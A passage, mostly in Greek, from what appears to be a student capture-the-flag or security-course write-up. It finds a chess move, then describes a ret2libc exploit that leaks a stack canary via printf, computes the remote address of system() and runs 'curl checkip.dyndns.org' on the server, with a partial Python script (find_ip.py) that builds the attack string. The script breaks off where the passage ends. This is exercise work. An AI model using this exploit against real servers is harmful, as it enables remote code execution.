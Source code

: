 Επομένως τα results του Plan Y είναι __41.998427123123__.

#### Ερώτημα 5

Διαβάζοντας το κείμενο του z.log βλέπουμε ότι για να απαντήσουμε στο ερώτημα πρέπει να βρούμε το "next move" και το "public IP of this machine".
 
Αρχικά για να βρούμε το "next_move" ψάξαμε στο Google τα  1.e4 c6 2.d4 d5 3.Nc3 dxe4 4.Nxe4 Nd7 5.Ng5 Ngf6 6.Bd3 e6 7.N1f3 h6 8.Nxe6 Qe7 9.0-0 fxe6 10.Bg6+ Kd8 11.Bf4 b5 12.a4 Bb7 13.Re1 Nd5 14.Bg3 Kc8 15.axb5 cxb5 16.Qd3 Bc6 17.Bf5 exf5 18.Rxe7 Bxe7 και βρήκαμε ότι είναι η ακολουθία κινήσεων του game 6 Deep Blue–Kasparov. Η επόμενη κίνηση ήταν 19.c4 1–0. Άρα το "next_move" είναι c4.

  Για να βρούμε το "public IP of this machine" έπρεπε να καλέσουμε κάποια συνάρτηση που μας λέει το IP στον remote server. Επιλέξαμε την curl checkip.dyndns.org. Για να την καλέσουμε έπρεπε να καλέσουμε την συνάρτηση system στον remote server με όρισμα αυτήν.
  
  Αρχικά έπρεπε να βρούμε την διεύθυνση της system στον remote server. Αρχικά δοκιμάσαμε να χρησιμοποιήσουμε το return address ή τον ebp που παίρνουμε από την printf, όμως δεν δούλεψαν. Παρατηρήσαμε ότι τοπικά η διεύθυνση της system ξεκινούσε πάντα από f7. Επιπλέον προσέξαμε ότι τόσο τοπικά όσο και στον remote server η οκτάδα πριν από το canary που εκτυπώνει η printf ξεκινάει πάντα και αυτή από f7. Έτσι για να υπολογίσουμε την διεύθυνση πήραμε την τιμή που ξεκινάει από f7 στον remote server και από αυτήν αφαιρέσαμε την αντίστοιχη τιμή από τον τοπικό server. Το αποτέλεσμα που βρήκαμε το προσθέσαμε στην τοπική διεύθυνση της system και έτσι βρήκαμε την remote. Είχαμε δοκιμάσει προηγουμένως με μία άλλη από τις διευθύνσεις που ξεκινάν από f7 και δεν δούλευε, τελικά αφού δούλεψε όλα έγιναν πιο ξεκάθαρα: η μία διεύθυνση που έδειχνε σε μία από τις συναρτήσεις της stdlib που χρησιμοποιούνταν ήταν σε διαφορετικό fragment στη μνήμη από το άλλο, συνεπώς βρίσκοντας το fragment όπου υπήρχε η system βρήκαμε τη λύση.
  
  Επιπλέον για να διαβάζει σωστά την παράμετρο(δηλαδή το curl checkip.dyndns.org) έπρεπε να την τοποθετήσουμε στην διεύθυνση return address+12 και να θέσαμε της μεταβλητές μνήμης που βρίσκονται στο return address+4 και return address+8 να δείχνουν σε αυτή.
  
Το script μας για το ερώτημα αυτο. find_ip.py που παράγει το attack string με μορφή ``(address of canary)*15 + canary + 3*values + address of system + (address of system +12)*2 + "curl checkip.dyndns.org" + "&"``.
  
```python
import requests, sys, os
from requests import Request, Session,exceptions

split = sys.argv[1]

last40 = split[-40:]
trial= split[-48:]

returnaddress = str(hex(int(last40[32:40],16) + 1625))

temp =  int(last40[24:32],16) - 172
canaryaddress = str(hex(temp))

canary = str(hex(int(last40[0:8],16) + 38))

#address of remote system
sys_diff = int(trial[0:8],16) - int("f7babd49",16)
remote_sys_addr= str(hex(int("f7b782e0",16) + sys_diff))

doub_pointer= str(hex(int(last40[24:32],16) - 148))

single_pointer= str(hex(int(last40[24:32],16) - 144))

data = bytes.fromhex(canaryaddress[2:])[::-1]

for i in range(0,14):
    data += bytes.fromhex(canaryaddress[2:])[::-1]

data += bytes.fromhex(canary[2:])[::-1]
data += bytes.fromhex(str(hex(int(last40[8:16],16)))[2:])[::-1]
```